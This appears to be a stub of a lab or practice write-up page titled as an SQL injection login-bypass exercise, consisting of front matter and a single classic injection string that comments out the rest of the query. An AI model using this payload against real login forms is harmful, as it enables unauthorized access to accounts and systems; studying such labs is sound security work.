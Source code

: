 ```yaml
---
layout: default
title: 02 - SQL injection vulnerability allowing login bypass
---
```

`'OR 1 =1 -- -`
